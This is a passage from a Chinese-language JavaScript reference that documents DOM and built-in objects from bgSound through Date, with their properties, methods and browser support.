该对象仅具有本节前文所述的**通用 HTML 元素**对象中列出的方法。

#### 支持

Internet Explorer 5+、Mozilla/Netscape 6+ DOM1 均支持。

#### 备注

你可能会看到 Mozilla 等浏览器将此对象标识为 **HTMLSpanElement**，尽管在 DOM 中并不存在这样的对象。正确的标识应为 **HTMLElement**，不过 Internet Explorer 仅将其标识为通用对象。

### bgSound（专有文档对象）

该对象对应文档中的 **\<bgsound\>**（背景声音）标签。由于这是 Internet Explorer 的专有标签，通常使用 **document.all[]** 来访问。不过，在 IE 中你也应该能够通过 **document.getElementById()** 等标准 DOM 方法来访问它。

#### 属性

对于 Internet Explorer 等支持的浏览器，除本节前文所述的**通用 HTML 元素**对象的属性外，该对象还具有以下属性：

- **balance** 数值，从 10,000 到 –10,000，指示来自左扬声器与右扬声器的声音比例。（IE4+）
- **loop** 数值，–1 表示声音应无限循环，0 表示播放一次，正值表示声音应播放的次数。（IE4+）
- **src** 字符串，指示声音的 URL。（IE4+）
- **volume** 数值，从 –10,000（最轻）到 0（最响）。（IE4+）

#### 方法

尽管是专有对象，该对象仍具有本节前文所述的**通用 HTML 元素**对象中列出的方法。

#### 支持

Internet Explorer 4+。

### big, HTMLElement（文档对象）

该对象对应文档中的 **\<big\>**（增大字号）标签。可以通过 **document.getElementById()** 等标准 DOM 方法来访问此对象。

#### 属性

该对象仅具有本节前文所述的**通用 HTML 元素**对象中定义的属性。

#### 方法

该对象仅具有本节前文所述的**通用 HTML 元素**对象中列出的方法。

#### 支持

Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 均支持。

#### 备注

你可能会看到 Mozilla 等浏览器将此对象标识为 **HTMLSpanElement**，尽管在 DOM 中并不存在这样的对象。正确的标识应为 **HTMLElement**，不过 Internet Explorer 仅将其标识为通用对象。

### blockQuote, HTMLQuoteElement（文档对象）

该对象对应文档中的 **\<blockquote\>** 标签。可以通过 **document.getElementById()** 等标准 DOM 方法来访问此对象。

#### 属性

除本节前文所述的**通用 HTML 元素**对象的属性外，该对象还具有以下属性：

- **cite** 字符串，包含引文参考的 URL。（IE6+, MOZ/N6+, DOM1）

#### 方法

该对象仅具有本节前文所述的**通用 HTML 元素**对象中列出的方法。

#### 支持

Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 均支持。

#### 备注

DOM 定义 **HTMLQuoteElement** 以涵盖与 **\<q\>** 和 **\<blockquote\>** 相关的对象。一些浏览器也识别 **\<bq\>** 来实例化此类型的对象。

Mozilla 和 Opera 7.5+ 正确地将此对象标识为 **HTMLQuoteElement**，而 Internet Explorer 将其报告为通用对象。Opera 7.5+ 还将临时的 **\<bq\>** 语法识别为 **HTMLQuoteElement**。

### body, HTMLBodyElement（文档对象）

该对象对应文档中的 **\<body\>** 标签。通常通过 **document.body** 访问此对象，但也可以使用 **document.getElementById()** 等其他 DOM 方法。

#### 属性

除本节前文所述的**通用 HTML 元素**对象的属性外，该对象还具有以下属性：

- **aLink** 字符串，指定活动链接的颜色。（IE4+, MOZ/N6+, DOM1）
- **background** 字符串，指定用作文档背景的图像的 URL。（IE4+, MOZ/N6+, DOM1）
- **bgColor** 字符串，指定文档的背景颜色。浏览器通常会将设置的颜色值转换为 #RRGGBB 十六进制格式，无论其输入方式如何。（IE4+, MOZ/N6+, DOM1）
- **bgProperties** 字符串，指定文档的其他背景属性。当值为 "fixed" 时，背景图像固定不动，不会随滚动而移动。（IE4+）
- **bottomMargin, leftMargin, rightMargin, topMargin** 设置页面整个正文部分的边距（以像素为单位），并覆盖默认边距。（IE4+）
- **link** 字符串，指定未访问链接的颜色。（IE4+, MOZ/N6+, DOM1）
- **noWrap** 布尔值，指示浏览器是否自动执行自动换行。（IE4+）
- **scroll** 字符串，指定滚动条是否可见。值为 "yes"、"no" 和 "auto"。（IE4+）
- **text** 字符串，指定文档的文本颜色。（IE3+, MOZ/N6+, DOM1）
- **timeStartRule** 字符串，指定 HTML+TIME 时间功能。（IE5+）
- **vLink** 字符串，指定已访问链接的颜色。（IE4+, MOZ/N6+, DOM1）

#### 方法

除本节前文所述的**通用 HTML 元素**对象的方法外，该对象还具有以下方法：

- **createControlRange()** 为文档创建一个 **controlRange** 对象并返回其引用。（IE5+）
- **createTextRange()** 为文档创建一个 **TextRange** 对象并返回其引用。（IE5+）
- **doScroll([*action*])** 将文档正文顶部滚动到视图中。如果指定了 *action*，则必须是几个预定字符串之一，如 "left" 或 "right"，以提供对滚动条操作的精细控制。有关完整详情，请参阅 MSDN。（IE5+）
- **pause()** 暂停文档上的时间线（与 HTML+TIME 相关）。请参阅 MSDN。（IE5+）
- **resume()** 恢复文档上的时间线（与 HTML+TIME 相关）。请参阅 MSDN。（IE5+）

#### 支持

Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 均支持。

#### 备注

传统上，许多文档级别的功能（如颜色）是通过 **Document** 对象的属性来修改的，因此开发者可能经常倾向于使用它们，而不是直接通过 **HTMLBodyElement** 更改值。

### Boolean（内置对象）

**Boolean** 是原始布尔数据类型的包装对象。但是，除非你有充分的理由，否则不建议使用 **Boolean** 对象。原因在于，任何不是 **undefined** 或 **null** 的对象在条件语句中使用时都会转换为原始布尔值 **true**。这意味着值为 **false** 的 **Boolean** 对象实例在条件语句中会求值为 **true**，而不是你可能预期的 **false**。因此，重要的是要记住在条件语句中使用此对象的 **valueOf()** 方法来提取 **Boolean** 对象的适当原始布尔值。

#### 构造函数

```
var instanceName = new Boolean(initialValue);
```

其中 *initialValue* 是要转换为布尔值的数据——例如，字符串、原始布尔值或数字。如果 *initialValue* 为 **false**、**null**、**NaN**、**undefined**、**0**、空字符串，或者 *initialValue* 被省略，则新创建的对象的值为 **false**。否则，初始值为 **true**。

#### 属性

- **constructor** 对创建该对象的构造函数对象的引用。（IE4+ (JScript 2.0+), MOZ, N3+ (JavaScript 1.1+), ECMA Edition 1）
- **prototype** 对对象原型的引用。（IE4+ (JScript 2.0+), MOZ, N3+ (JavaScript 1.1+), ECMA Edition 1）

#### 方法

- **toString()** 返回值的字符串版本，即 "true" 或 "false"。（IE4+ (JScript 2.0+), MOZ, N3+ (JavaScript 1.1+), ECMA Edition 1）
- **valueOf()** 返回对象的原始布尔值。（IE4+ (JScript 2.0+), MOZ, N3+ (JavaScript 1.1+), ECMA Edition 1）

#### 支持

IE3+ (JScript 1.0+)、Mozilla、N3+ (JavaScript 1.1+)、ECMAScript Edition 1 均支持。


 ## 注意事项

4.06 之前的 Netscape 版本（以及 JavaScript 1.3 之前的语言版本）在条件判断中将值为 **false** 的 **Boolean** 对象转换为基础类型的 **false**。现代实现则将这类对象转换为 **true**。

有关使用 **Boolean** 的示例，请参阅第 3 章和第 7 章。

### br, HTMLBRElement（文档对象）

该文档对象对应文档中的 `<br>`（换行）标签。可通过标准 DOM 方法（如 **document.getElementsByTagName()**）访问此对象。

#### 属性

除本节开头 **通用 HTML 元素** 对象中的属性外，此对象还具有以下属性：

- **clear** 字符串，指定该元素如何与周围文本流动。典型值为 "left"、"right" 或 "all"。（IE4+、MOZ/N6+）

#### 方法

此对象仅具有本节开头 **通用 HTML 元素** 对象中列出的方法。

#### 支持

Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 支持。

### button, HTMLButtonElement（文档对象）

该对象对应文档中的 **<button>** 标签。它不对应 **<input type="button">** 的出现（请参阅紧随其后的 **Button**）。可通过标准 DOM 方法（如 **document.getElementById()**）访问此对象，或者更常见地通过 **Form** 对象的 **elements[]** 数组访问。

#### 属性

除本节开头 **通用 HTML 元素** 对象中的属性外，此对象还具有以下属性：

- **accessKey** 单字符字符串，指示使元素获得焦点的热键。（IE4+、MOZ/N6+、DOM1）
- **dataFld** 字符串，指定数据源的哪个字段绑定到该元素。（IE4+）
- **dataFormatAs** 字符串，指示元素如何处理提供给它的数据。（IE4+）
- **dataSrc** 字符串，包含数据绑定的数据源来源。（IE4+）
- **disabled** 布尔值，指示该元素是否被禁用（灰色显示）。（IE4+、MOZ/N6+、DOM1）
- **form** 对包含该按钮的 **Form** 的只读引用（如果存在）。（IE4+、MOZ/N6+、DOM1）
- **name** 字符串，保存元素的 **name** 属性值。（IE4+、MOZ/N6+、DOM1）
- **tabIndex** 数值，指示对象的 Tab 键顺序。（IE4+、MOZ/N6+、DOM1）
- **type** 字符串，指示按钮的类型，可为 "button"、"reset" 或 "submit"。（IE4+、MOZ/N6+、DOM1）
- **value** 字符串，包含按钮 **value** 属性的文本内容。（IE4+、MOZ/N6+、DOM1）

#### 方法

此对象仅具有本节开头 **通用 HTML 元素** 对象中列出的方法。

#### 支持

Internet Explorer 4+、Mozilla/Netscape 6+ 支持（<button> 标签在 Netscape 4 中*不*支持）、DOM1。

### Button, HTMLInputElement（文档对象）

该对象对应文档中的 <input type="button" /> 标签。它不对应 <button> 的出现（请参阅紧接前面的 **button**）。可通过标准 DOM 方法（如 **document.getElementById()**）访问此对象，但更常见的是通过其所在表单的 **elements[]** 数组访问。

#### 属性

除本节开头 **通用 HTML 元素** 对象中的属性外，此对象还具有以下属性：

- **accessKey** 单字符字符串，指示使元素获得焦点的热键。（IE4+、MOZ/N6+、DOM1）
- **align** 字符串，指定元素的对齐方式，例如 "left"。（IE4+、MOZ/N6+、DOM1）
- **dataFld** 字符串，指定数据源的哪个字段绑定到该元素。（IE4+）
- **dataFormatAs** 字符串，指示元素如何处理提供给它的数据。（IE4+）
- **dataSrc** 字符串，包含数据绑定的数据源来源。（IE4+）
- **defaultValue** 字符串，保存 **value** 属性的原始值。（IE4+、MOZ/N6+、DOM1）
- **disabled** 布尔值，指示该元素是否被禁用（灰色显示）。（IE4+、MOZ/N6+、DOM1）
- **form** 对包含该按钮的 **Form** 的只读引用。（IE3+、MOZ、N2+、DOM1）
- **name** 字符串，保存元素的 **name** 属性值。（IE3+、MOZ、N2+、DOM1）
- **size** 字符串，指示按钮的宽度（以像素为单位）。（IE4+、MOZ/N6+、DOM1）
- **tabIndex** 数值，指示对象的 Tab 键顺序。（IE4+、MOZ/N6+、DOM1）
- **type** 只读字符串，指示字段的类型，应为 "button"。（IE4+、MOZ、N3+、DOM1）
- **value** 字符串，包含按钮 **value** 属性的文本内容。（IE3+、MOZ、N2+、DOM1）

#### 方法

除本节开头 **通用 HTML 元素** 对象中的方法外，此对象还具有以下方法：

- **blur()** 使按钮失去焦点。（IE3+、MOZ、N2+、DOM1）
- **click()** 模拟点击按钮。（IE3+、MOZ、N2+、DOM1）
- **focus()** 使按钮获得焦点。（IE3+、MOZ、N2+、DOM1）
- **handleEvent(*event*)** 使 **Event** 实例 *event* 由对象的适当处理程序处理。（仅 N4）

#### 支持

Internet Explorer 3+、Mozilla、Netscape 2+、DOM1 支持。

### caption, HTMLTableCaptionElement（文档对象）

该对象对应文档中的 <caption>（表格标题）标签。可通过标准 DOM 方法（如 **document.getElementById()**）或其所包含的 **HTMLTableObject**（<table>）访问此对象。

#### 属性

除本节开头 **通用 HTML 元素** 对象中的属性外，此对象还具有以下属性：

- **align** 字符串，指定元素的对齐方式，例如 "top" 或 "left"。（IE4+、MOZ/N6+、DOM1）
- **vAlign** 字符串，指定元素的垂直对齐方式（"bottom" 或 "top"）。（IE4+）

#### 方法

此对象仅具有本节开头 **通用 HTML 元素** 对象中列出的方法。

#### 支持

Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 支持。

### center, HTMLElement（文档对象）

该对象对应文档中的 **<center>**（居中文本）标签。可通过标准 DOM 方法（如 **document.getElementById()**）访问此对象。

#### 属性

此对象仅具有本节开头 **通用 HTML 元素** 对象中定义的属性。

#### 方法

此对象仅具有本节开头 **通用 HTML 元素** 对象中列出的方法。

#### 支持

Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 支持。

#### 注意事项

您可能会看到 Mozilla 等浏览器将此对象标识为 **HTMLSpanElement**，尽管 DOM 中并不存在此类对象。正确的指示应为 **HTMLElement**，但 Internet Explorer 仅将其指示为通用对象。

### Checkbox, HTMLInputElement（文档对象）

该对象对应文档中的 **<input type="checkbox" />** 标签。可通过标准 DOM 方法（例如 **document.getElementById()**）访问此对象，或者更常见地通过其所包含表单的 **elements[]** 数组访问。

#### 属性

除本节开头 **通用 HTML 元素** 对象中的属性外，此对象还具有以下属性：

- **accessKey** 单字符字符串，指示使元素获得焦点的热键。（IE4+、MOZ/N6+、DOM1）
- **align** 字符串，指定元素的对齐方式，例如 "left"。（MOZ/N6+、DOM1）
- **checked** 布尔值，指示复选框是否被选中。（IE3+、MOZ、N2+、DOM1）
- **dataFld** 字符串，指定数据源的哪个字段绑定到该元素。（IE4+）
- **dataSrc** 字符串，包含数据绑定的数据源来源。（IE4+）
- **defaultChecked** 布尔值，指示复选框默认是否被选中。（IE3+、MOZ、N2+、DOM1）
- **defaultValue** 字符串，包含复选框 **value** 属性的原始值。（IE3+、MOZ、DOM1）


 - **disabled** 布尔值，指示元素是否被禁用（灰色显示）。(IE4+, MOZ/N6+, DOM1)
- **form** 只读引用，指向包含该按钮的**表单**，如果存在的话。(IE3+, MOZ, N2+, DOM1)
- **height** 复选框的高度，以像素为单位。(IE5+)
- **name** 字符串，保存元素的**name**属性。(IE3+, MOZ, N2+, DOM1)
- **size** 字符串，指示宽度，以像素为单位。(IE3+, MOZ/N6+, DOM1)
- **status** 布尔值，指示复选框当前是否被选中。(IE4+)
- **tabIndex** 数值，指示对象的制表符顺序。(IE4+, MOZ/N6+, DOM1)
- **type** 只读字符串，指示字段的类型，应为"checkbox"。(IE3+, MOZ, N3+, DOM1)
- **value** 字符串，包含**value**属性的文本。(IE3+, MOZ, N2+, DOM1)
- **width** 复选框的宽度，以像素为单位。(IE5+)

#### 方法

除了本节开头的**通用 HTML 元素**对象中的方法外，该对象还具有以下方法：

- **blur()** 使复选框失去焦点。(IE3+, MOZ, N2+, DOM1)
- **click()** 模拟点击复选框。(IE3+, MOZ, N2+, DOM1)
- **focus()** 使复选框获得焦点。(IE3+, MOZ, N2+, DOM1)
- **handleEvent(event)** 使**Event**实例*event*由对象的适当处理程序处理。(仅 N4)

#### 支持

支持 Internet Explorer 3+、Mozilla、Netscape 2+、DOM1。

### cite, HTMLElement（文档对象）

该对象对应于文档中的`<cite>`（引用）标签。通过标准 DOM 方法（如**document.getElementById()**）访问此对象。

#### 属性

该对象只具有本节开头的**通用 HTML 元素**对象中定义的属性。

#### 方法

该对象只具有本节开头的**通用 HTML 元素**对象中列出的方法。

#### 支持

支持 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1。

#### 注意

您可能会看到 Mozilla 等浏览器将此对象识别为**HTMLSpanElement**，尽管 DOM 中不存在这样的对象。正确的指示是**HTMLElement**，尽管 Internet Explorer 只是将其指示为通用对象。

### clientInformation（专有浏览器对象）

**clientInformation**对象只是浏览器**Navigator**对象的同义词。微软在 IE4+ 中提供它，是为了避免使用 Netscape 的"Navigator"名称，尽管 IE 当然仍直接支持**Navigator**对象。您应避免使用**clientInformation**，而选择**Navigator**，因为它的跨浏览器兼容性要好得多。

### clipboardData（专有浏览器对象）

**clipboardData**对象提供了与 Windows 系统剪贴板交互的接口。

#### 属性

无。

#### 方法

- **clearData([*dataFormat*])** 清除剪贴板中的所有数据，除非将字符串*dataFormat*指定为"Text"、"URL"、"File"、"HTML"或"Image"，在这种情况下，仅清除该类型的数据。(IE5+ Windows)
- **getData(*dataFormat*)** 从剪贴板获取指定格式的数据，并将其作为字符串（文本、HTML 或 URL）返回。(IE5+ Windows)
- **setData(*dataFormat, data*)** 尝试将字符串*data*中的数据（文本、HTML 或 URL）按照字符串*dataType*中指定的数据类型（Text、URL、File、HTML 或 Image）放入剪贴板。返回一个布尔值，指示是否成功。(IE5+ Windows)

#### 支持

适用于 Windows 的 Internet Explorer 5+。

### code, HTMLElement（文档对象）

该对象对应于文档中的**\<code\>**（代码列表）标签。通过标准 DOM 方法（如**document.getElementById()**）访问此对象。

#### 属性

该对象只具有本节开头的**通用 HTML 元素**对象中定义的属性。

#### 方法

该对象只具有本节开头的**通用 HTML 元素**对象中列出的方法。

#### 支持

支持 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1。

#### 注意

您可能会看到 Mozilla 等浏览器将此对象识别为**HTMLSpanElement**，尽管 DOM 中不存在这样的对象。正确的指示是**HTMLElement**，尽管 Internet Explorer 只是将其指示为通用对象。

### col, HTMLTableColElement（文档对象）

该对象对应于文档中的**\<col\>**（表格列）标签。通过标准 DOM 方法（如**document.getElementById()**）或包含它的**HTMLTableObject**（**\<table\>**）访问此对象。

#### 属性

除了本节开头的**通用 HTML 元素**对象中的属性外，该对象还具有以下属性：

- **ch** 字符串，指定列的对齐字符。此属性/属性通常不受浏览器支持，但提供它是为了让程序员希望自己实现该功能。(IE6+, MOZ/N6+, DOM1)
- **chOff** 字符串，指定列中首次出现对齐字符的偏移量。此属性/属性通常不受浏览器支持，但提供它是为了让程序员希望自己实现该功能。(IE6+, MOZ/N6+, DOM1)
- **span** 整数，指示组中的列数或由该列跨越的列数。(IE4+, MOZ/N6+, DOM1)
- **vAlign** 字符串，指定列数据的垂直对齐方式（例如，"top"）。(IE4+, MOZ/N6+, DOM1)
- **width** 指定列的宽度，以像素为单位。(IE4+, MOZ/N6+, DOM1)

#### 方法

该对象只具有本节开头的**通用 HTML 元素**对象中列出的方法。

#### 支持

支持 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1。

### colGroup, HTMLTableColElement（文档对象）

该对象对应于文档中的`<colgroup>`（表格列组）标签。通过标准 DOM 方法（如**document.getElementById()**）访问此对象。该对象的结构与**col**相同。

#### 属性

该对象只具有本节开头的**通用 HTML 元素**对象中定义的属性。

#### 方法

该对象只具有本节开头的**通用 HTML 元素**对象中列出的方法。

#### 支持

支持 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1。

### CSSrule（文档对象）

参见**rule**对象。

### currentStyle（专有文档对象）

这是一个只读的**Style**对象，反映应用于元素的所有样式，无论其定义在哪里。因为正常的**Style**对象只反映通过**style**属性设置的内联样式，所以通过***element.style***访问的"正常"**Style**对象不会反映默认设置或通过外部链接样式表设置的样式。**currentStyle**对象*会*反映这些样式，并且随着应用于元素的样式变化而动态更新。有关更多详细信息，请参见**Style**对象。

#### 支持

Internet Explorer 5+。

### dataTransfer（专有浏览器对象）

这个特定于 Internet Explorer 的对象是**Event**对象的子对象，提供了对在拖放操作中使用预定义剪贴板格式的访问。此处汇总了属性和方法。有关更多详细信息，请参见 MSDN。

#### 属性

- **dropEffect** 保存拖放操作的类型和要显示的光标类型。允许的值有"copy"、"link"、"move"和"none"，默认值为 none。(IE5+)
- **effectAllowed** 保存允许对拖放中的源元素执行的数据传输操作的定义。允许的值包括"copy"、"link"、"move"、"copyLink"、"copyMove"、"linkMove"、"all"、"none"和"uninitialized"。默认值为 uninitialized，它允许拖放效果工作，尽管其类型无法通过属性查询。(IE5+)

#### 方法

- **clearData([*sDataFormat*])** 清除**dataTransfer**对象中的数据。可选的*sDataFormat*参数可以设置为"Text"、"URL"、"File"、"HTML"或"Image"，以指示要删除的数据类型。(IE 5+)
- **getData(*sDataFormat*)** 从**dataTransfer**或**clipboardData**对象返回以定义的*sDataFormat*（"Text"或"URL"）表示的数据。(IE 5+)
- **setData(*sDataFormat*,*sData*)** 将由*sData*定义的字符串数据以*sDataFormat*指定的格式（"Text"或"URL"）分配给**dataTransfer**或**clipboardData**对象。(IE5+)

#### 支持

IE 5+

### Date（内置对象）

**Date**对象提供了多种操作日期和时间的方法。重要的是要记住，**Date**实例不包含"滴答作响的时钟"，而是持有静态的日期值。内部，日期以自纪元（1970 年 1 月 1 日 UTC 午夜）以来的毫秒数存储。这解释了毫秒在许多**Date**方法中的重要作用。

毫秒、秒、分钟、小时和月份从零开始计数；所以，例如，十二月是第 11 个月。日期从 1 开始计数。年份应始终使用四位数字。现代实现允许处理的年份可以追溯到几十万年前或未来，尽管较早的实现通常在处理 1970 年之前的日期时遇到困难。许多实现在处理公元 1 年之前的日期时遇到困难。

请注意，世界协调时间（UTC）与格林尼治标准时间（GMT）相同。

#### 构造函数

```
var *instanceName* = **new** **Date**();
var *instanceName* = **new** **Date**(*milliseconds*);
var *instanceName* = **new** **Date**(*stringDate*);
var *instanceName* = **new** **Date**(*year*, *month*, *day* [, *hrs* [, *mins* [, *secs* [, *ms*]]]);
```

第一种构造函数语法创建一个持有当前日期和时间的新**Date**实例。第二种语法创建一个持有由数值*milliseconds*参数中给出的毫秒数指定日期的实例。第三种语法尝试使用**parse()**方法（请参见"方法"部分）将字符串*stringDate*转换为有效日期来创建实例。第四种语法根据其数值参数创建实例。如果省略可选参数，它们将用零填充。

#### 属性

- **constructor** 对创建对象的构造函数对象的引用。(IE4+ (JScript 2.0+), MOZ, N3+ (JavaScript 1.1+), ECMA Edition 1)
- **prototype** 对对象原型的引用。(IE4+ (JScript 2.0+), MOZ, N3+ (JavaScript 1.1+), ECMA Edition 1)

#### 方法


 - **getDate()** 返回一个数值，表示当月的日期（从1开始）。（IE3+ (JScript 1.0+), MOZ, N2+ (JavaScript 1.0+), ECMA Edition 1）
- **getDay()** 返回一个数值，表示星期几（0表示星期日，1表示星期一，以此类推）。（IE3+ (JScript 1.0+), MOZ, N2+ (JavaScript 1.0+), ECMA Edition 1）
- **getFullYear()** 返回一个数值，表示四位数的年份。（IE4+ (JScript 3.0+), MOZ, N4.06+ (JavaScript 1.3+), ECMA Edition 1）
- **getHours()** 返回一个数值，表示午夜过后的小时数（从0开始）。（IE3+ (JScript 1.0+), MOZ, N2+ (JavaScript 1.0+), ECMA Edition 1）
- **getMilliseconds()** 返回一个数值，表示毫秒数（0–999）。（IE4+ (JScript 3.0+), MOZ, N4.06+ (JavaScript 1.3+), ECMA Edition 1）
- **getMinutes()** 返回一个数值，表示分钟数（0–59）。（IE4+ (JScript 3.0+), MOZ, N2+ (JavaScript 1.0+), ECMA Edition 1）
- **getMonth()** 返回一个数值，表示自年初以来的月份数（0–11；0表示一月）。（IE3+ (JScript 1.0+), MOZ, N2+ (JavaScript 1.0+), ECMA Edition 1）
- **getSeconds()** 返回一个数值，表示秒数（0–59）。（IE3+ (JScript 1.0+), MOZ, N2+ (JavaScript 1.0+), ECMA Edition 1）
- **getTime()** 返回一个数值，表示自纪元以来的毫秒数。纪元之前的日期返回负值，表示纪元之前的毫秒数。（IE3+ (JScript 1.0+), MOZ, N2+ (JavaScript 1.0+), ECMA Edition 1）
- **getTimezoneOffset()** 返回一个数值，表示本地时间与UTC之间的分钟差。正值表示本地时间比UTC晚（例如，在美国），负值表示本地时间比UTC早（例如，在印度）。（IE3+ (JScript 1.0+), MOZ, N2+ (JavaScript 1.0+), ECMA Edition 1）
- **getUTCDate()** 返回一个数值，表示当月的日期（从1开始），使用UTC。（IE4+ (JScript 3.0+), MOZ, N4.06+ (JavaScript 1.3+), ECMA Edition 1）
- **getUTCDay()** 返回一个数值，表示星期几（0表示星期日，1表示星期一，以此类推），根据UTC。（IE4+ (JScript 3.0+), MOZ, N4.06+ (JavaScript 1.3+), ECMA Edition 1）
- **getUTCFullYear()** 返回一个数值，表示四位数的年份，根据UTC。（IE4+ (JScript 3.0+), MOZ, N4.06+ (JavaScript 1.3+), ECMA Edition 1）
- **getUTCHours()** 返回一个数值，表示午夜过后的小时数（从0开始），根据UTC。（IE4+ (JScript 3.0+), MOZ, N4.06+ (JavaScript 1.3+), ECMA Edition 1）
- **getUTCMilliseconds()** 返回一个数值，表示毫秒数（0–999），根据UTC。（IE4+ (JScript 3.0+), MOZ, N4.06+ (JavaScript 1.3+), ECMA Edition 1）
- **getUTCMinutes()** 返回一个数值，表示分钟数（0–59），根据UTC。（IE4+ (JScript 3.0+), MOZ, N4.06+ (JavaScript 1.3+), ECMA Edition 1）
- **getUTCMonth()** 返回一个数值，表示自年初以来的月份数（0–11；0表示一月），根据UTC。（IE4+ (JScript 3.0+), MOZ, N4.06+ (JavaScript 1.3+), ECMA Edition 1）
- **getUTCSeconds()** 返回一个数值，表示秒数（0–59），根据UTC。（IE4+ (JScript 3.0+), MOZ, N4.06+ (JavaScript 1.3+), ECMA Edition 1）
- **getYear()** 返回当前年份减去1900后的值，或者在某些情况下，如果年份大于1999则返回四位数的年份。此方法已弃用；请改用**getFullYear()**。（IE3+ (JScript 1.0+), MOZ, N2+ (JavaScript 1.0+), ECMA Edition 1）
- **getVarYear()** 返回与对象对应的VT_DATE。用于与COM或VBScript交互，但一般情况下应避免使用。（IE4+ (JScript 3.0+)）
- **parse(stringDate)** 尝试解析字符串*stringDate*中给出的日期，如果成功则返回相对于纪元的毫秒数。有效的字符串格式在[第7章]中给出，但一般来说可以是任何常见的日期表示形式，例如"month/day/year"、"month day, year"或"month day, year hh:mm:ss"。允许使用明确的简写形式（例如，用"Dec"表示December）。如果无法解析日期，返回**NaN**。（IE3+ (JScript 1.0+), MOZ, N2+ (JavaScript 1.0+), ECMA Edition 1, 静态方法）
- **setDate(dayOfMonth)** 将本地时间中当月的日期（从1开始）设置为数值参数*dayOfMonth*。（IE4+ (JScript 3.0+), MOZ, N2+ (JavaScript 1.0+), ECMA Edition 1）
- **setFullYear(year [, month [, day]])** 将本地时间中的日期设置为数值参数*year*指定的年份。如果传递了数值参数*month*和*day*，则月份（从0开始）和当月的日期（从1开始）也会被设置。如果*month*大于11，年份会相应增加。如果*day*大于当月的天数，月份会相应增加。（IE4+ (JScript 3.0+), MOZ, N4.06+ (JavaScript 1.3+), ECMA Edition 1）
- **setHours(hours [, mins [, secs [, ms]]])** 将本地时间中的小时数（从0开始）设置为*hours*中的数值参数。如果传递了可选参数，分钟、秒和毫秒会相应设置。如果任何参数超出正常值范围，日期会相应调整（例如，60秒会使分钟增加1并将秒设置为0）。（IE4+ (JScript 3.0+), MOZ, N2+ (JavaScript 1.0+), ECMA Edition 1）
- **setMilliseconds(ms)** 将本地时间中的毫秒数（从0开始）设置为数值参数*ms*。如果*ms*大于999，秒数会相应调整。（IE4+ (JScript 3.0+), MOZ, N4.06+ (JavaScript 1.3+), ECMA Edition 1）
- **setMinutes(minutes [, secs [, ms]])** 将本地时间中的分钟数（从0开始）设置为数值参数*minutes*。如果提供了数值参数*secs*和*ms*，秒和毫秒会设置为这些值。如果任何参数超出正常范围，相应的值会相应增加（例如，如果*secs*为60，分钟会增加1并将秒设置为0）。（IE3+ (JScript 1.0+), MOZ, N2+ (JavaScript 1.0+), ECMA Edition 1）
- **setMonth(month [, day])** 将本地时间中的月份（从0开始）设置为数值参数*month*。如果提供了数值参数*day*，当月的日期（从1开始）会相应设置。如果任一值超出预期范围，日期会相应调整（例如，如果*month*为12，年份会增加1并将月份设置为0）。（IE3+ (JScript 1.0+), MOZ, N2+ (JavaScript 1.0+), ECMA Edition 1）
- **setSeconds(seconds [, ms])** 将本地时间中的秒数（从0开始）设置为数值参数*seconds*。如果提供了数值参数*ms*，毫秒数（从0开始）会相应设置。如果任一值超出预期范围，日期会相应调整（例如，如果*ms*为1000，秒数会增加1并将毫秒设置为0）。（IE3+ (JScript 1.0+), MOZ, N2+ (JavaScript 1.0+), ECMA Edition 1）
- **setTime(ms)** 将日期设置为*ms*中给出的自纪元以来的毫秒数所对应的日期。*ms*的负值表示纪元之前的日期。（IE3+ (JScript 1.0+), MOZ, N2+ (JavaScript 1.0+), ECMA Edition 1）
- **setUTCDate(dayOfMonth)** 将UTC中当月的日期（从1开始）设置为数值参数*dayOfMonth*。（IE4+ (JScript 3.0+), MOZ, N4.06+ (JavaScript 1.3+), ECMA Edition 1）
- **setUTCFullYear(year [, month [, day]])** 将UTC中的日期设置为数值参数*year*指定的年份。如果传递了数值参数*month*和*day*，则月份（从0开始）和当月的日期（从1开始）也会被设置。如果*month*大于11，年份会相应增加。如果*day*大于当月的天数，月份会相应增加。（IE4+ (JScript 3.0+), MOZ, N4.06+ (JavaScript 1.3+), ECMA Edition 1）
- **setUTCHours(hours [, mins [, secs [, ms]]])** 将UTC中的小时数（从0开始）设置为*hours*中的数值参数。如果传递了可选参数，分钟、秒和毫秒会相应设置。如果任何参数超出正常值范围，日期会相应调整（例如，60秒会使分钟增加1并将秒设置为0）。（IE4+ (JScript 3.0+), MOZ, N4.06+ (JavaScript 1.3+), ECMA Edition 1）
- **setUTCMilliseconds(ms)** 将UTC中的毫秒数（从0开始）设置为数值参数*ms*。如果*ms*大于999，秒数会相应调整。（IE4+ (JScript 3.0+), MOZ, N4.06+ (JavaScript 1.3+), ECMA Edition 1）
- **setUTCMinutes(minutes [, secs [, ms]])** 将UTC中的分钟数（从0开始）设置为数值参数*minutes*。如果提供了数值参数*secs*和*ms*，秒和毫秒会设置为这些值。如果任何参数超出正常范围，相应的值会相应增加（例如，如果*secs*为60，分钟会增加1并将秒设置为0）。（IE4+ (JScript 3.0+), MOZ, N4.06+ (JavaScript 1.3+), ECMA Edition 1）
- **setUTCMonth(month [, day])** 将UTC中的月份（从0开始）设置为数值参数*month*。如果提供了数值参数*day*，当月的日期（从1开始）会相应设置。如果任一值超出预期范围，日期会相应调整（例如，如果*month*为12，年份会增加1并将月份设置为0）。（IE4+ (JScript 3.0+), MOZ, N4.06+ (JavaScript 1.3+), ECMA Edition 1）
- **setUTCSeconds(seconds [, ms])** 将UTC中的秒数（从0开始）设置为数值参数*seconds*。如果提供了数值参数*ms*，毫秒数（从0开始）会相应设置。如果任一值超出预期范围，日期会相应调整（例如，如果*ms*为1000，秒数会增加1并将毫秒设置为0）。（IE4+ (JScript 3.0+), MOZ, N4.06+ (JavaScript 1.3+), ECMA Edition 1）


- **setYear(year)** 此方法已弃用；请改用 **setFullYear()**。在本地时间中将年份设置为数值 *year*。*year* 参数必须是所需年份减去 1900 后的值。（IE3+ (JScript 1.0+)，MOZ，N2+ (JavaScript 1.0+)，ECMA Edition 1）
